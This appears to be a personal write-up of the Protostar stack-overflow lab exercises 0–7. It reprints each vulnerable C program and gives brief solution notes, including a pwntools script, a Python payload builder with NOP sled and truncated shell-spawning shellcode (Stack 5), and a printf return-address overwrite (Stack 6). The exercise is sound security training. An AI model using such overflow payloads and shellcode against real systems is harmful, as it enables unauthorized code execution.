 ```yaml
---
layout: post
title: >
    Protostar Stack Exploitation 0-4
tags: [exploit education, exploit, protostar, stack]
---
```


# PROTOSTAR

# Stack 0

```
int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

this can be solved by normally overflowing the buffer with 68 A
NOTE:  apply breakpoint before the cmp or test statement so that you can calculate offset without segmentation fault

> from pwn import *
sh=process(’stack0’)
sh.recvline(timeout=5)
sh.send(b’A’*68)
c.recv()
> 

# Stack 01

```
int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

after 64 offset the modified variable value i there you can recheck with the using the address shown there in gdb,

|NOTE binary is LSB so last bit first

# Stack 2

```
int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

To inject payload you can also use printf “<payload>” as manually exploit no use to write python code. 

# Stack 3

```
void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

You need to change the value of fp to the win address, 

> Note: Volatile is **a qualifier that is applied to a variable when it is declared**. It tells the compiler that the value of the variable may change at any time-without any action being taken by the code the compiler finds nearby.
> 

# Stack 4

```
void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

for this type, find the crash point, then find the function add and add it after the crash point

# Stack 5 (Concepts)

```python
import struct
nop= 'A'*76
sp=struct.pack("I",0xbffff7c0)
#sh="\xde\xf7\xff\xbf"
padding="\x90"*200# +"\xcc"*4
shellcode="\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69$
payload=nop+sp+padding+shellcode
print payload
```

First find the offset for the stack by segmentation fault and find the ebp by **x/2wx $ebp**, and the second one is the address of ebp as first line in gdb **push ebp** so it pushes the ebp in the stack the over the any value(garbage). because it moves to next  memory before pushing ebp.

**Explaining Exploit:-**

The offset is used to get to the eip and after marking the breakpoint to the last (main+27) and countinue forward(add \xcc [call to interrupt procedure ] so it overflow address after return address[which should be change to the int 3(\xcc) address ]) and overflow the return addresss with the address \xcc is. After the trap message appear , you can add shellcode instead of \xcc adding nop side(\x90) 

# Stack 6

```python
printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\xbf" | ./stack6
```

first find the value of return and changed it with the hard coded value, 

> Note : find the value same as value of return and try to over write that (Yet to research on that)
> 

`__builtin_return_address(0);` gives the return address for the function

# Stack 7

Same as previous, except the value to overwrite changed to 0xb0000000